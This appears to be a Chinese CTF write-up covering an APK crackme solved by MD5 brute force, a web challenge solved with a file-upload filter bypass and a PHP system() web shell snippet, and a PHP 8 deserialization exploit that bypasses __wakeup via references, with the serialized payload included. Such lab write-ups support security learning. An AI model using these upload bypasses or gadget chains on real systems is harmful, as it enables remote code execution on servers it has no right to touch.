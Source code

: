 ### crackme1

下载到apk文件后，用jadx打开分析发现逻辑没有套在CPP里面，遂直接进行分析
![](https://image.0error.net/img/202220220619113437.png)
可知程序逻辑是把输入分8段算md5
将题中给出的字符串分八段分别进行md5爆破，最后将结果拼接后即可得到flag

## Web
### Identity
burp 抓包，返回的 header 中有 identity: GuessWhatThis1sY0urIdentity  
将 identity=GuessWhatThis1sY0urIdentity 作为参数再次请求得到文件上传点 h1dden_p4ge.php  
文件上传，文件名改大写 PHP 绕过，文件内容绕过用 
```php
<script language="php">system('xxx')</script>
```


### ezser
这题一开始想利用绕过 __wakeup，然后版本是 8.x 绕不过，于是改用引用来绕过 __wakeup  
```php
<?php
class A{
    public $functions=[];
}
class B{
    private $a;
    private $b;
    public $c;
    function __construct()
    {
        $a = new A();
        $this->a = &$a->functions;
        $this->b = array(
            "_name" => array(
                new C(),
                "getFlag"
            )
        );
        $this->c=$a;
    }
}
class C{
    public function getFlag(){
        // echo file_get_contents("/etc/flag");
        echo 11111;
    }
}

$b = new B();
echo "data=".urlencode(serialize($b)).PHP_EOL;
// data=O%3A1%3A%22B%22%3A3%3A%7Bs%3A4%3A%22%00B%00a%22%3Ba%3A0%3A%7B%7Ds%3A4%3A%22%00B%00b%22%3Ba%3A1%3A%7Bs%3A5%3A%22_name%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A1%3A%22C%22%3A0%3A%7B%7Di%3A1%3Bs%3A7%3A%22getFlag%22%3B%7D%7Ds%3A1%3A%22c%22%3BO%3A1%3A%22A%22%3A1%3A%7Bs%3A9%3A%22functions%22%3BR%3A2%3B%7D%7D
```
